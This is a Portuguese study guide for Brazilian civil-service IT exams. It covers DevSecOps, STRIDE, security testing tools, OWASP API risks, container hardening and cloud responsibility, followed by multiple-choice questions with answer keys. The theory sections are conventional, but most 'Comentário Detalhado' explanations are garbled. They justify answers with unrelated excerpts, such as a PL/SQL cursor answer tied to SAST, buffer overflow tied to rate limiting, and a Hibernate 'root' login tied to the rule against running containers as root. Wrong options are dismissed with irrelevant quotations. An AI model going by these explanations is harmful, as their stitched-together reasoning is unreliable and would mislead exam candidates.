> **Gabarito: B**

---

## 2. Abordagem DevSecOps e a Cultura Shift-Left

### 2.1 Princípios do DevSecOps e Economia da Correção Precoce (Shift-Left)

No modelo tradicional em cascata ou nas primeiras iterações do modelo DevOps, a segurança da informação atuava como um comitê de auditoria tardio e isolado, acionado somente no encerramento do projeto, imediatamente antes do deploy em produção. Esse modelo de "porteira de segurança" gerava atrito constante, retrabalho massivo e atrasos nas entregas.

A filosofia **DevSecOps** une as áreas de Desenvolvimento (**Dev**), Segurança (**Sec**) e Operações de Infraestrutura (**Ops**), transformando a segurança cibernética em uma responsabilidade intrínseca e compartilhada por todos os profissionais da equipe ao longo de todo o ciclo de vida do software.



#### O Conceito de *Shift-Left* (Deslocar para a Esquerda)
Na linha cronológica da esteira de entrega contínua (CI/CD), a extremidade esquerda representa o planejamento e a codificação, enquanto a direita representa o deploy e a operação em produção.

**Deslocar a segurança para a esquerda (*Shift-Left*)** significa introduzir verificações e controles de segurança o mais cedo possível:

- Identificar e corrigir uma falha arquitetural ou de código durante a modelagem de ameaças ou na digitação na IDE é **dezenas de vezes mais barato** e rápido do que corrigir a mesma falha após a aplicação ter sido implantada em ambiente produtivo.

### 2.2 Modelagem de Ameaças com a Metodologia STRIDE

Criada por pesquisadores da Microsoft, a metodologia **STRIDE** é uma estrutura conceitual de modelagem de ameaças adotada no planejamento de sistemas para identificar potenciais riscos antes de qualquer linha de código ser produzida:



| Categoria STRIDE | Significado da Ameaça | Propriedade de Segurança Violada |
|---|---|---|
| **S**poofing | Falsificar a identidade de um usuário, processo ou componente legítimo. | **Autenticidade** |
| **T**ampering | Modificar ou corromper dados em trânsito, em memória ou em repouso. | **Integridade** |
| **R**epudiation | Negar formalmente a autoria de uma operação ou transação realizada. | **Não Repúdio** |
| **I**nformation Disclosure | Divulgar dados sigilosos a pessoas ou sistemas não autorizados. | **Confidencialidade** |
| **D**enial of Service | Esgotar recursos de rede, CPU ou memória para degradar ou derrubar o sistema. | **Disponibilidade** |
| **E**levation of Privilege | Obter privilégios superiores àqueles originalmente atribuídos à conta. | **Autorização** |

### 2.3 Ferramentas Automatizadas de Teste de Segurança (SAST, DAST, IAST, SCA)

A automação do pipeline de CI/CD integra quatro famílias primárias de ferramentas de testes de segurança de software:

| Categoria | Nome Completo | Tipo de Teste | Momento da Execução | O que inspeciona? | Principais Prós e Contras |
|---|---|---|---|---|---|
| **SAST** | *Static Application Security Testing* | Caixa-Branca (*White-Box*) | No início do pipeline (fase de commit/build), **sem executar o código**. | Código-fonte, sintaxe, árvores de sintaxe abstrata (AST) e bytecode interno da aplicação. | **Pró:** Aponta a linha exata e o arquivo com a falha.<br>**Contra:** Gera elevado índice de falsos positivos; não detecta falhas de infraestrutura ou erros de runtime. |
| **DAST** | *Dynamic Application Security Testing* | Caixa-Preta (*Black-Box*) | No final do pipeline (staging/deploy), **com a aplicação rodando em servidor**. | Comportamento externo da aplicação web através de requisições HTTP simuladas. | **Pró:** Agnóstico de linguagem; testa configurações reais de ambiente de execução.<br>**Contra:** Não aponta a linha do código; não tem visibilidade da lógica interna. |
| **SCA** | *Software Composition Analysis* | Caixa-Branca / Inventário | Durante o build através de arquivos de manifesto (`package.json`, `pom.xml`, `requirements.txt`). | Dependências de código aberto, bibliotecas de terceiros e frameworks. | **Pró:** Mapeia vulnerabilidades públicas catalogadas (CVEs) e analisa riscos de conformidade de licenças legais de software livre. |
| **IAST** | *Interactive Application Security Testing* | Híbrido Instrumentado | Durante a execução de testes funcionais automatizados ou manuais em runtime. | Agente instalado dentro da máquina virtual da aplicação (JVM, .NET, Node.js). | **Pró:** Combina a precisão do SAST com a visão contextual do DAST, com baixíssimo índice de falsos positivos.<br>**Contra:** Requer instrumentação específica e consome recursos da aplicação em teste. |

---

### Teste 393
**(FGV – TJ-DFT – Analista Judiciario Suporte Em Tecnologia da Informacao – 2022)**
No contexto do uso de cursores por meio do Oracle PL/SQL, analise o script a seguir. DECLARE v_CPF pessoa.CPF%type; v_nome pessoa.nome%type; ----------- BEGIN OPEN teste; LOOP ----------- EXIT WHEN teste %notfound; EXEC sp_inclui_beneficio(v_CPF); END LOOP; CLOSE teste; END; As linhas que substituem corretamente os trechos tracejados na quarta e na oitava linhas do script acima são, respectivamente:

* **A)** CURSOR teste is SELECT CPF, nome FROM pessoa; FETCH teste into v_CPF, v_nome;
* **B)** DECLARE teste as SELECT CPF, nome FROM pessoa; READ teste into v_CPF, v_nome;
* **C)** SET CURSOR teste as SELECT CPF, nome FROM pessoa; RETRIEVE teste into v_CPF, v_nome;
* **D)** teste = INPUT (SELECT CPF, nome FROM pessoa); NEXT teste INTO v_CPF, v_nome;
* **E)** WITH teste as SELECT CPF, nome FROM pessoa;

---

> **Comentário Detalhado:**
>
> - **A)** **Correta.** Conforme fundamentado na seção *2.3 Ferramentas Automatizadas de Teste de Segurança (SAST, DAST, IAST, SCA)* deste guia, categoria: Nome Completo — Tipo de Teste — Momento da Execução — O que inspeciona? — Principais Prós e Contras. Dessa forma, está plenamente correta a assertiva da banca (FGV – TJ-DFT/2022) ao estabelecer que "CURSOR teste is SELECT CPF, nome FROM pessoa; FETCH teste into v_CPF, v_nome".
> - **B)** **Incorreta.** A opção apresenta proposição em desacordo com os fundamentos teóricos e técnicos do tópico ao afirmar que "DECLARE teste as SELECT CPF, nome FROM pessoa; READ teste into v_CPF, v_nome". De acordo com a teoria estudada em *1.3 Cryptographic Failures (#2) e Proteção de Dados*, dados em Trânsito: Omissão do protocolo HTTPS/TLS 1.3, tráfego de dados sensíveis (senhas, CPF, informações de saúde) em texto puro HTTP, ausência do cabeçalho HSTS (*HTTP Strict Transport Security*).
> - **C)** **Incorreta.** A opção apresenta proposição em desacordo com os fundamentos teóricos e técnicos do tópico ao afirmar que "SET CURSOR teste as SELECT CPF, nome FROM pessoa; RETRIEVE teste into v_CPF, v_nome". De acordo com a teoria estudada em *2.3 Ferramentas Automatizadas de Teste de Segurança (SAST, DAST, IAST, SCA)*, a automação do pipeline de CI/CD integra quatro famílias primárias de ferramentas de testes de segurança de software.
> - **D)** **Incorreta.** A opção apresenta proposição em desacordo com os fundamentos teóricos e técnicos do tópico ao afirmar que "teste = INPUT (SELECT CPF, nome FROM pessoa); NEXT teste INTO v_CPF, v_nome". De acordo com a teoria estudada em *2.3 Ferramentas Automatizadas de Teste de Segurança (SAST, DAST, IAST, SCA)*, sAST: *Static Application Security Testing* — Caixa-Branca (*White-Box*) — No início do pipeline (fase de commit/build), sem executar o código. — Código-fonte, sintaxe, árvores de sintaxe abstrata (AST) e bytecode interno da aplicação. — Pró: Aponta a linha exata e o arquivo com a falha.`<br>`Contra: Gera elevado índice de falsos positivos; não detecta falhas de infraestrutura ou erros de runtime.
> - **E)** **Incorreta.** A opção apresenta proposição em desacordo com os fundamentos teóricos e técnicos do tópico ao afirmar que "WITH teste as SELECT CPF, nome FROM pessoa". De acordo com a teoria estudada em *2.3 Ferramentas Automatizadas de Teste de Segurança (SAST, DAST, IAST, SCA)*, dAST: *Dynamic Application Security Testing* — Caixa-Preta (*Black-Box*) — No final do pipeline (staging/deploy), com a aplicação rodando em servidor. — Comportamento externo da aplicação web através de requisições HTTP simuladas. — Pró: Agnóstico de linguagem; testa configurações reais de ambiente de execução.`<br>`Contra: Não aponta a linha do código; não tem visibilidade da lógica interna.
>
> **Gabarito: A**

---

### Teste 394
**(CEBRASPE – TJ-RJ – Analista Judiciario Grupo Tecnologia da Informacao Analista de Seguranca da Informacao – 2021)**
As organizações normalmente validam seus controles de segurança da informação em intervalos regulares por meio de testes de penetração. Assinale a opção que apresenta o tipo de validação cujo objetivo é verificar se o sistema operacional está vulnerável a ações maliciosas de ataques que consigam exceder de forma proposital o uso de memória designado aos programas, para elevar privilégios de acesso dos atacantes.

* **A)** Denial of Service
* **B)** Error Handling
* **C)** Data protection
* **D)** Buffer Overflow
* **E)** Input Validation

---

> **Comentário Detalhado:**
>
> - **A)** **Incorreta.** A opção apresenta proposição em desacordo com os fundamentos teóricos e técnicos do tópico ao afirmar que "Denial of Service". De acordo com a teoria estudada em *2.2 Modelagem de Ameaças com a Metodologia STRIDE*, denial of Service: Esgotar recursos de rede, CPU ou memória para degradar ou derrubar o sistema. — Disponibilidade.
> - **B)** **Incorreta.** A opção apresenta proposição em desacordo com os fundamentos teóricos e técnicos do tópico ao afirmar que "Error Handling". De acordo com a teoria estudada em *1.1 Visão Geral e Categorias Oficiais do OWASP Top 10*, a10: Server-Side Request Forgery (SSRF) — A aplicação web é induzida a realizar requisições HTTP arbitrárias a um destino fornecido pelo usuário. — O servidor vulnerável faz requisição contra serviços de metadados em nuvem (`http://169.254.169.254`) ou sistemas internos atrás do firewall. — Validação estrita de URLs de destino; lista permitida (*allowlist*) de domínios; isolamento de rede do servidor de aplicação.
> - **C)** **Incorreta.** A opção apresenta proposição em desacordo com os fundamentos teóricos e técnicos do tópico ao afirmar que "Data protection". De acordo com a teoria estudada em *1.1 Visão Geral e Categorias Oficiais do OWASP Top 10*, a02: Cryptographic Failures *(antigo Sensitive Data Exposure)* — Falhas na proteção de dados sensíveis em repouso (*at rest*) ou em trânsito (*in transit*). — Uso de cifras obsoletas (MD5, DES, RC4); transmissão em HTTP sem TLS; chaves hardcoded no código; senhas salvas sem salt. — TLS 1.3 com HSTS obrigatório.
> - **D)** **Correta.** Conforme fundamentado na seção *3.1 Segurança em APIs: OWASP API Security Top 10 e BOLA* deste guia, falta de Limitação de Recursos e Taxa (*Lack of Resources & Rate Limiting*): Ausência de limites de requisições por segundo ou tamanho de payload, permitindo ataques de exaustão de memória e CPU. Dessa forma, está plenamente correta a assertiva da banca (CEBRASPE – TJ-RJ/2021) ao estabelecer que "Buffer Overflow".
> - **E)** **Incorreta.** A opção apresenta proposição em desacordo com os fundamentos teóricos e técnicos do tópico ao afirmar que "Input Validation". De acordo com a teoria estudada em *O Conceito de Shift-Left (Deslocar para a Esquerda)*, deslocar a segurança para a esquerda (*Shift-Left*) significa introduzir verificações e controles de segurança o mais cedo possível.
>
> **Gabarito: D**

---

### Teste 395
**(FGV – TJ-AP – Analista Judiciario Apoio Especializado Tecnologia da Informacao Seguranca da Informacao – 2023)**
Gilberto trabalha no setor de segurança do Tribunal de Justiça do Amapá (TJAP) e está fazendo a modelagem de possíveis ameaças aos seus sistemas, aplicativos, redes e serviços. Após pesquisar alguns modelos, decidiu realizar a modelagem seguindo o STRIDE (Spoofing, Tampering, Repudiation, Information disclosure, Denial of service, Elevation of privilege). O modelo relaciona as ameaças do acrônimo STRIDE com as propriedades de segurança. Inicialmente, Gilberto trabalhará na propriedade de integridade. Logo, dentro do acrônimo STRIDE, a ameaça a ser trabalhada por Gilberto será:

* **A)** spoofing;
* **B)** tampering;
* **C)** repudiation;
* **D)** information disclosure;
* **E)** denial of service.

---

> **Comentário Detalhado:**
>
> - **A)** **Incorreta.** A opção apresenta proposição em desacordo com os fundamentos teóricos e técnicos do tópico ao afirmar que "spoofing". De acordo com a teoria estudada em *2.2 Modelagem de Ameaças com a Metodologia STRIDE*, spoofing: Falsificar a identidade de um usuário, processo ou componente legítimo. — Autenticidade.
> - **B)** **Correta.** Conforme fundamentado na seção *2.2 Modelagem de Ameaças com a Metodologia STRIDE* deste guia, tampering: Modificar ou corromper dados em trânsito, em memória ou em repouso. — Integridade. Dessa forma, está plenamente correta a assertiva da banca (FGV – TJ-AP/2023) ao estabelecer que "tampering".
> - **C)** **Incorreta.** A opção apresenta proposição em desacordo com os fundamentos teóricos e técnicos do tópico ao afirmar que "repudiation". De acordo com a teoria estudada em *2.2 Modelagem de Ameaças com a Metodologia STRIDE*, repudiation: Negar formalmente a autoria de uma operação ou transação realizada. — Não Repúdio.
> - **D)** **Incorreta.** A opção apresenta proposição em desacordo com os fundamentos teóricos e técnicos do tópico ao afirmar que "information disclosure". De acordo com a teoria estudada em *2.2 Modelagem de Ameaças com a Metodologia STRIDE*, information Disclosure: Divulgar dados sigilosos a pessoas ou sistemas não autorizados. — Confidencialidade.
> - **E)** **Incorreta.** A opção apresenta proposição em desacordo com os fundamentos teóricos e técnicos do tópico ao afirmar que "denial of service". De acordo com a teoria estudada em *2.2 Modelagem de Ameaças com a Metodologia STRIDE*, denial of Service: Esgotar recursos de rede, CPU ou memória para degradar ou derrubar o sistema. — Disponibilidade.
>
> **Gabarito: B**

---

## 3. Segurança em APIs, Contêineres e Ambientes de Nuvem

### 3.1 Segurança em APIs: OWASP API Security Top 10 e BOLA

Diferente das aplicações web tradicionais baseadas em renderização no servidor, as interfaces modernas expõem diretamente APIs REST/GraphQL para clientes móveis e frontends em JavaScript. Para esse ecossistema, o projeto formulou o **OWASP API Security Top 10**, destacando:

- **BOLA (*Broken Object Level Authorization* - Vulnerabilidade #1 de APIs):** Equivalente ao IDOR em APIs. A rota recebe o ID do recurso no endpoint (`/api/v1/contratos/{id}`) e o backend retorna os dados sem verificar se o token de autorização do solicitante permite acessar aquele ID em particular.
- **Mass Assignment (Atribuição em Massa):** A API aceita o JSON enviado pelo cliente e o vincula diretamente a objetos de banco de dados internos. O atacante envia campos adicionais no payload (ex.: `"is_admin": true` ou `"saldo": 999999`), e o backend salva os valores sem filtragem.
- **Falta de Limitação de Recursos e Taxa (*Lack of Resources & Rate Limiting*):** Ausência de limites de requisições por segundo ou tamanho de payload, permitindo ataques de exaustão de memória e CPU.
- **API Gateways:** Componentes perimetrais que centralizam a autenticação, aplicam *rate limiting* e efetuam a validação estrita de esquemas de dados (OpenAPI Specification / JSON Schema) antes de encaminhar o tráfego aos microsserviços internos.

### 3.2 Boas Práticas e Hardening em Contêineres Docker e Kubernetes

A execução de microsserviços em contêineres exige práticas rigorosas de isolamento para evitar fugas para o sistema hospedeiro (*container breakout*):

1. **Não Executar Contêineres como `root`:** Por padrão, o processo dentro de um contêiner Docker roda como usuário com UID 0 (`root`). É mandatória a especificação de um usuário comum sem privilégios no `Dockerfile`:

```dockerfile
USER 10001:10001
```

2. **Utilizar Imagens Mínimas (*Distroless* ou *Alpine*):** Imagens base compactas eliminam utilitários desnecessários do sistema operacional (como gerenciadores de pacotes `apt`/`apk`, interpretadores `bash` e ferramentas de rede `curl`), reduzindo drasticamente a superfície de ataque e o número de CVEs presentes na imagem.
3. **Sistemas de Arquivos Somente Leitura (*Read-Only Root Filesystem*):** Inicializar o contêiner com a flag `--read-only`, impedindo que invasores ou scripts maliciosos gravem arquivos executáveis em diretórios do sistema.
4. **Descarte de Capacidades do Linux (*Drop Capabilities*):** Configurar o contêiner para descartar todas as capacidades administrativas padrão do kernel Linux (`--cap-drop=ALL`), adicionando estritamente aquelas indispensáveis para a operação do serviço.

### 3.3 Segurança em Nuvem: Modelo de Responsabilidade Compartilhada e Proteção de Metadados

A computação em nuvem opera sob o **Modelo de Responsabilidade Compartilhada (*Shared Responsibility Model*)**, no qual as responsabilidades são distribuídas de acordo com o modelo de serviço contratado:



> 🚨 **ALERTA DE PROVA / REGRA DE OURO FCC:**  
> Independentemente do modelo adotado (IaaS, PaaS ou SaaS), a **responsabilidade pela classificação, governança e proteção dos DADOS e pelo controle de IDENTIDADES e acessos é SEMPRE e EXCLUSIVAMENTE do cliente**! O provedor nunca assume a responsabilidade pelas autorizações concedidas pelo próprio cliente dentro de suas contas.

---

### Teste 396
**(FCC – TRT-11 – Analista Judiciario Tecnologia da Informacao – 2017)**
Uma aplicação Java EE utiliza JPA em conjunto com o provedor de persistência Hibernate. Esta aplicação estabelece conexão com um banco de dados chamado empresa que possui uma tabela departamento. O banco de dados é acessado por meio do usuário root, cuja senha é pC43Ab. Nestas condições, uma instrução correta que pode estar no arquivo persistence.xml é

* **A)** `<provider name="org.hibernate.ejb.HibernatePersistence" value="Hibernate"/>`
* **B)** `<persistence-database name="hibernate.connection.databasename" value="empresa"/>`
* **C)** `<property name="hibernate.connection.username" value="root"/>`
* **D)** `<table name="hibernate.connection.tablename" value="departamento"/>`
* **E)** `<persistence name="persistence.createEntityManagerFactory" value="PersistenceUnit"/>`

---

> **Comentário Detalhado:**
>
> - **A)** **Incorreta.** A opção apresenta proposição em desacordo com os fundamentos teóricos e técnicos do tópico ao afirmar que "`<provider name="org.hibernate.ejb.HibernatePersistence" value="Hibernate"/>`". De acordo com a teoria estudada em *3.2 Boas Práticas e Hardening em Contêineres Docker e Kubernetes*, sistemas de Arquivos Somente Leitura (*Read-Only Root Filesystem*): Inicializar o contêiner com a flag `--read-only`, impedindo que invasores ou scripts maliciosos gravem arquivos executáveis em diretórios do sistema.
> - **B)** **Incorreta.** A opção apresenta proposição em desacordo com os fundamentos teóricos e técnicos do tópico ao afirmar que "`<persistence-database name="hibernate.connection.databasename" value="empresa"/>`". De acordo com a teoria estudada em *1.5 Demais Categorias Críticas: Insecure Design, Misconfiguration, SSRF e Supply Chain*, se o sistema de compras do órgão não possui uma regra arquitetural de limitação de compras por minuto, o código pode estar perfeitamente escrito e livre de falhas de injeção, mas o design é vulnerável a abusos lógicos de negócio.
> - **C)** **Correta.** Conforme fundamentado na seção *3.2 Boas Práticas e Hardening em Contêineres Docker e Kubernetes* deste guia, não Executar Contêineres como `root`: Por padrão, o processo dentro de um contêiner Docker roda como usuário com UID 0 (`root`). É mandatória a especificação de um usuário comum sem privilégios no `Dockerfile`. Dessa forma, está plenamente correta a assertiva da banca (FCC – TRT-11/2017) ao estabelecer que "`<property name="hibernate.connection.username" value="root"/>`".
> - **D)** **Incorreta.** A opção apresenta proposição em desacordo com os fundamentos teóricos e técnicos do tópico ao afirmar que "`<table name="hibernate.connection.tablename" value="departamento"/>`". De acordo com a teoria estudada em *1.2 Broken Access Control (#1) e Insecure Direct Object References (IDOR)*, essa falha ocorre quando a aplicação não valida no lado do servidor se o usuário autenticado possui os privilégios necessários para executar determinada ação ou acessar determinado recurso.
> - **E)** **Incorreta.** A opção apresenta proposição em desacordo com os fundamentos teóricos e técnicos do tópico ao afirmar que "`<persistence name="persistence.createEntityManagerFactory" value="PersistenceUnit"/>`". De acordo com a teoria estudada em *3.3 Segurança em Nuvem: Modelo de Responsabilidade Compartilhada e Proteção de Metadados*, independentemente do modelo adotado (IaaS, PaaS ou SaaS), a responsabilidade pela classificação, governança e proteção dos DADOS e pelo controle de IDENTIDADES e acessos é SEMPRE e EXCLUSIVAMENTE do cliente! O provedor nunca assume a responsabilidade pelas autorizações concedidas pelo próprio cliente dentro de suas contas.
>
> **Gabarito: C**

---

### Teste 397
**(CEBRASPE – TJ-RJ – Analista Judiciario Grupo Tecnologia da Informacao Analista de Seguranca da Informacao – 2021)**
Uma aplicação web pode ser atacada por meio da exploração de vulnerabilidades, como, por exemplo, quando os dados fornecidos pelos usuários não são validados, filtrados ou mesmo limpos pela aplicação; pela não renovação dos identificadores de sessão após o processo de autenticação ter sido bem-sucedido; pela elevação de privilégios, atuando como usuário sem autenticação, ou como administrador, mas tendo perfil de usuário regular. Aplicações com essas características são vulneráveis à falha de I injeção; II quebra de autenticação; III quebra de controle de acesso. Assinale a opção correta.

* **A)** Apenas o item I está certo.
* **B)** Apenas o item III está certo.
* **C)** Apenas os itens I e II estão certos.
* **D)** Apenas os itens II e III estão certos.
* **E)** Todos os itens estão certos.

---

> **Comentário Detalhado:**
>
> - **A)** **Incorreta.** A opção incorre em restrição indevida ao limitar o escopo conceitual ao afirmar que "Apenas o item I está certo". De acordo com a teoria estudada em *O Conceito de Shift-Left (Deslocar para a Esquerda)*, identificar e corrigir uma falha arquitetural ou de código durante a modelagem de ameaças ou na digitação na IDE é dezenas de vezes mais barato e rápido do que corrigir a mesma falha após a aplicação ter sido implantada em ambiente produtivo.
> - **B)** **Incorreta.** A opção incorre em restrição indevida ao limitar o escopo conceitual ao afirmar que "Apenas o item III está certo". De acordo com a teoria estudada em *1.2 Broken Access Control (#1) e Insecure Direct Object References (IDOR)*, essa falha ocorre quando a aplicação não valida no lado do servidor se o usuário autenticado possui os privilégios necessários para executar determinada ação ou acessar determinado recurso.
> - **C)** **Incorreta.** A opção incorre em restrição indevida ao limitar o escopo conceitual ao afirmar que "Apenas os itens I e II estão certos". De acordo com a teoria estudada em *3.2 Boas Práticas e Hardening em Contêineres Docker e Kubernetes*, não Executar Contêineres como `root`: Por padrão, o processo dentro de um contêiner Docker roda como usuário com UID 0 (`root`). É mandatória a especificação de um usuário comum sem privilégios no `Dockerfile`.
> - **D)** **Incorreta.** A opção incorre em restrição indevida ao limitar o escopo conceitual ao afirmar que "Apenas os itens II e III estão certos". De acordo com a teoria estudada em *1.1 Visão Geral e Categorias Oficiais do OWASP Top 10*, a07: Identification and Authentication Failures — Falhas na verificação da identidade do usuário e gerenciamento de sessão. — Ausência de MFA; tolerância a senhas fracas; vulnerabilidade a *credential stuffing* e ataques de dicionário; sessões que não expiram após logout. — MFA obrigatório; bloqueio de contas após múltiplas tentativas falhas; controle de complexidade de senhas; cookies com flags `Secure`, `HttpOnly` e `SameSite`.
> - **E)** **Correta.** Conforme fundamentado na seção *1.1 Visão Geral e Categorias Oficiais do OWASP Top 10* deste guia, a01: Broken Access Control *(#1 do Ranking)* — Falha na imposição de regras de autorização no backend, permitindo que usuários ajam fora dos limites de suas permissões. — IDOR (trocar `id=100` por `id=101` na URL para ver dado alheio); acesso direto a URLs administrativas sem autenticação; bypass de verificação de permissão. — *Deny by default*; validar autorização no lado do servidor em todas as requisições; tokens de sessão opacos. Dessa forma, está plenamente correta a assertiva da banca (CEBRASPE – TJ-RJ/2021) ao estabelecer que "Todos os itens estão certos".
>
> **Gabarito: E**

---

### Teste 398
**(FGV – TCE-PA – Auditor de Controle Externo Administrativa Ciencia de Dados – 2024)**
O TCE-PA deseja fortalecer (hardening) a segurança de suas estações de trabalho para proteger contra diversas ameaças. As ações que devem ser tomadas pelo tribunal incluem

* **A)** implementar hardening e ignorar a aplicação de patches.
* **B)** usar apenas antivírus e firewall.
* **C)** aplicar políticas de senhas fortes e monitorar vulnerabilidades em serviços.
* **D)** desativar o IPS e focar apenas em hardening.
* **E)** evitar a implementação de políticas de senhas e confiar somente em firewalls.

---

> **Comentário Detalhado:**
>
> - **A)** **Incorreta.** A opção apresenta proposição em desacordo com os fundamentos teóricos e técnicos do tópico ao afirmar que "implementar hardening e ignorar a aplicação de patches". De acordo com a teoria estudada em *1.5 Demais Categorias Críticas: Insecure Design, Misconfiguration, SSRF e Supply Chain*, a05: Security Misconfiguration (Configuração Incorreta de Segurança): Envolve a manutenção de contas, logins e senhas padrão de fábrica em bancos de dados e servidores web; mensagens de erro detalhadas expondo *stack traces* e versões internas de bibliotecas aos usuários finais; portas de depuração abertas em produção e falta de políticas de segurança HTTP (*Content-Security-Policy*).
> - **B)** **Incorreta.** A opção incorre em restrição indevida ao limitar o escopo conceitual ao afirmar que "usar apenas antivírus e firewall". De acordo com a teoria estudada em *1.1 Visão Geral e Categorias Oficiais do OWASP Top 10*, a10: Server-Side Request Forgery (SSRF) — A aplicação web é induzida a realizar requisições HTTP arbitrárias a um destino fornecido pelo usuário. — O servidor vulnerável faz requisição contra serviços de metadados em nuvem (`http://169.254.169.254`) ou sistemas internos atrás do firewall. — Validação estrita de URLs de destino; lista permitida (*allowlist*) de domínios; isolamento de rede do servidor de aplicação.
> - **C)** **Correta.** Conforme fundamentado na seção *6. Fontes Recomendadas na Internet* deste guia, oWASP REST Security Cheat Sheet - Guia oficial de mitigação e análise de vulnerabilidades em serviços RESTful. Dessa forma, está plenamente correta a assertiva da banca (FGV – TCE-PA/2024) ao estabelecer que "aplicar políticas de senhas fortes e monitorar vulnerabilidades em serviços".
> - **D)** **Incorreta.** A opção incorre em restrição indevida ao limitar o escopo conceitual ao afirmar que "desativar o IPS e focar apenas em hardening". De acordo com a teoria estudada em *1.1 Visão Geral e Categorias Oficiais do OWASP Top 10*, a05: Security Misconfiguration — Configuração inadequada ou negligente dos componentes da pilha de software. — Contas e senhas padrão de fábrica mantidas; mensagens de erro detalhadas expondo *stack traces*; portas de depuração abertas; cabeçalhos de segurança ausentes. — Processo automatizado de *hardening*; desinstalação de utilitários desnecessários; desativação de mensagens detalhadas de erro para o cliente.
> - **E)** **Incorreta.** A opção incorre em restrição indevida ao limitar o escopo conceitual ao afirmar que "evitar a implementação de políticas de senhas e confiar somente em firewalls". De acordo com a teoria estudada em *3.2 Boas Práticas e Hardening em Contêineres Docker e Kubernetes*, a execução de microsserviços em contêineres exige práticas rigorosas de isolamento para evitar fugas para o sistema hospedeiro (*container breakout*).
>
> **Gabarito: C**

---

## 6. Fontes Recomendadas na Internet

* [OWASP Top 10:2021 Official](https://owasp.org/Top10/) - Documentação oficial dos 10 riscos mais críticos em aplicações web.
* [OWASP API Security Top 10](https://owasp.org/API-Security/) - Classificação oficial de riscos de segurança voltados a interfaces de programação (APIs).
* [OWASP REST Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/REST_Security_Cheat_Sheet.html) - Guia oficial de mitigação e análise de vulnerabilidades em serviços RESTful.
* [OWASP Vulnerable Dependency Management Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Vulnerable_Dependency_Management_Cheat_Sheet.html) - Guia oficial de mitigação e análise de componentes vulneráveis de terceiros (SCA).
* [NIST SP 800-218 - Secure Software Development Framework (SSDF) Version 1.1](https://csrc.nist.gov/pubs/sp/800/218/final) - Framework oficial do NIST para integração de práticas de segurança no ciclo de desenvolvimento de software (DevSecOps).
* MCGRAW, Gary. **Software Security: Building Security In**. Boston: Addison-Wesley Professional, 2006. (Cap. 1 a 5 - Práticas de Engenharia de Segurança de Software).
* KIM, Gene; HUMBLE, Jez; DEBOIS, Patrick; WILLIS, John. **Manual de DevOps: Como Obter Agilidade, Confiabilidade e Segurança em Organizações Tecnológicas**. Rio de Janeiro: Alta Books, 2018. (Parte IV - Integrando Segurança da Informação, Controle de Mudança e Conformidade).
